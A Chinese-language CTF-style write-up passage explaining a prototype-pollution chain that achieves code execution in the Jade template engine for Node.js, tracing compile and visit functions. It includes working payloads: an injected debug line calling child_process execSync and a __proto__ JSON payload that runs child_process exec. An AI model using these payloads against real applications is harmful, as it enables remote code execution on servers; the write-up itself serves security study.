

其实parse函数主要是执行这两步，主要是负责将模板字符串转换为可执行的 JavaScript 代码，一个是解析字符串，一个是转化成js代码

最后返回的东西

```javascript
 var body = ''
    + 'var buf = [];\n'
    + 'var jade_mixins = {};\n'
    + 'var jade_interp;\n'
    + (options.self
      ? 'var self = locals || {};\n' + js
      : addWith('locals || {}', '\n' + js, globals)) + ';'
    + 'return buf.join("");';
  return {body: body, dependencies: parser.dependencies};
```

`options.self` 可控, 可以绕过 `addWith` 函数, 回头跟进 compile 函数



返回的是 buf, 跟进 visit 函数



这里有对debug的赋值，如果debug为true就进入push，这里有拼接语句，我们看看这两个参数是否可控

**node.line**和**node.filename**在 debug 为真的时候进入了 buf。然而**node.filename**被**utils.stringify**处理过了，无法逃逸双引号。唯有考虑 line 是否可以被覆盖了。

```javascript
jade_debug.unshift(new jade.DebugItem( 0, "" ));return global.process.mainModule.constructor._load('child_process').execSync('dir');//
```

最后还会执行visitNode函数

```javascript
visitNode: function(node){
    return this['visit' + node.type](node);}
```

然后我们type可以动态调用函数，测试结果如下

| Method Name       | Status |
| ----------------- | ------ |
| visitAttributes   |        |
| visitBlock        |        |
| visitBlockComment | √      |
| visitCase         |        |
| visitCode         | √      |
| visitComment      | √      |
| visitDoctype      |        |
| visitEach         |        |
| visitFilter       |        |
| visitMixin        |        |
| visitMixinBlock   | √      |
| visitNode         |        |
| visitLiteral      |        |
| visitText         |        |
| visitTag          |        |
| visitWhen         |        |

所以最终得到链子，首先就是先覆盖debug的值使其进入push语句，然后通过构造line的值为我们的恶意代码，最后将type设置为code就可以了

```
{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"line":"global.process.mainModule.require('child_process').exec('calc')"}}}
```

哦对了，还有一个self参数，需要进行设置就会跳过

针对 jade RCE链的污染, 普通的模板可以只需要污染 self 和 line, 但是有继承的模板还需要污染 type，绕过addWith的报错

## 0x03题目

在ctfshowweb入门里面的nodejs就有几道js原型链污染的题目
